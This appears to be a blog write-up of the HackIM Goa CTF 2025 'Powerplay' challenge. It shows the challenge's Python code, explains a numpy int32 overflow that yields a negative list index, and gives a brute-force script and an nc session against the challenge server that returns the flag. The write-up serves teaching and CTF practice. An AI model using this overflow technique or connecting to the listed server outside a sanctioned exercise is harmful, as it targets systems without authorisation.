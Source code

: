 ```yaml
---
title: 'HackIM Goa CTF 2025 - Powerplay'
description: 'Welcome to our playground for powerful people where you can pump yourself up and get awesome prizes!'
pubDate: '2025-02-06T14:16:37Z'
cover: 'header.png'
---
```


## Challenge


Here's what the challenge looks like:  
<Image src={challenge} alt='The screenshot of the challenge showing an ip:port and link to the code.' />

And here's the full code:  
```python
import numpy as np
from secret import flag, quotes

prizes = quotes + ['missingno'] * 4 + [flag] * 24

if __name__ == '__main__':
	print('Welcome to our playground for powerful people where you can pump yourself up and get awesome prizes!\n')
	player_count = int(input('How many players participate?\n'))
	power = np.zeros(player_count, dtype = np.int32)
	for i in range(player_count):
		power[i] = int(input(f'Player {i}, how strong are you right now?\n'))
	ready = False

	while True:
		print('What do you want to do?\n1) pump up\n2) cash in')
		option = int(input())
		if option == 1:
			power = power**2
			ready = True
		elif option == 2:
			if not ready:
				raise Exception('Nope, too weak')
			for i in range(player_count):
				if power[i] < len(quotes):
					print(f'You got an inspiration: {prizes[power[i]]}')
			exit()
		else:
			raise Exception('What?')
```

## Analysis
There's a `prizes` variable that contains an unspecified number of quotes, 4 `'missingno'` strings,
and 24 copies of the flag.
Furthermore, we can retrieve the flag by attaining the correct power level.

The issue here is that we only get a quote if our power level is less than or equal to the number of quotes:
`if power[i] < len(quotes):`. The leaves but one option: going backwards via a negative number!
Also a quick note that we need to "power-up" at least once before we can get an "inspiration".

As far as I'm aware, Python3 numbers are infinite, so there's no way to overflow them.
Luckily, the challenge uses numpy's `int32`s: `np.zeros(player_count, dtype = np.int32)`.
The challenge is thusly to find some number that, once squared, will become a number between -24 and -1.

## Solution
A quick brute-force should do the trick:

```python
import numpy as np

for i in reversed(range(np.iinfo(np.int32).max)):
    a = np.array([i], np.int32)
    a = a ** 2
    if a[0] <= -1 and a[0] >= -24:
        print(i)
        exit(0)
```

We run the script, and few short moments later...

```
❯ python /mnt/kali/ctf/nullcon2025/powerplay/find.py
2112767193
```

A quick trip over to the challenge:

```
❯ nc 52.59.124.14 5016
Welcome to our playground for powerful people where you can pump yourself up and get awesome prizes!

How many players participate?
1
Player 0, how strong are you right now?
2112767193
What do you want to do?
1) pump up
2) cash in
1
What do you want to do?
1) pump up
2) cash in
2
You got an inspiration: ENO{d0_n0t_be_s0_neg4t1ve_wh3n_y0u_sh0uld_be_pos1t1ve}
```

And we have the flag!